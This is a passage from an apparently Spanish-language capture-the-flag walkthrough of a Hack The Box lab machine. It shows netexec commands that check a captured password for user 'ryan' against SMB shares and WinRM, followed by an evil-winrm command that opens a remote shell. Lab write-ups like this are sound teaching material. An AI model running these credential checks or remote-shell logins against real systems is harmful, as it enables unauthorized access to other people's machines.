 Teniendo supuestamente unas nuevas credenciales, probaremos de comprobar si podemos pivotar entre usuarios.

Comprobamos que las credenciale son válidas, disponemos del mismo acceso de los recursos SMB y de que podemos conectarnos al WinRM.

```bash
netexec smb 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!'

netexec smb 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!' --shares

netexec winrm 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!'
```

<figure><img src="../../../.gitbook/assets/1094_vmware_ml4VWF6g9A.png" alt=""><figcaption></figcaption></figure>

### ShellOver Evil-WinRM

Procederemos a conectarnos con el usuario "ryan" al servicio de WinRM a través de **evil-winrm**.

```bash
evil-winrm -i 10.10.10.169 -u 'ryan'  -p 'Serv3r4Admin4cc123!'
```

<figure><img src="../../../.gitbook/assets/1093_vmware_Yi0udC0Son.png" alt="" width="563"><figcaption></figcaption></figure>
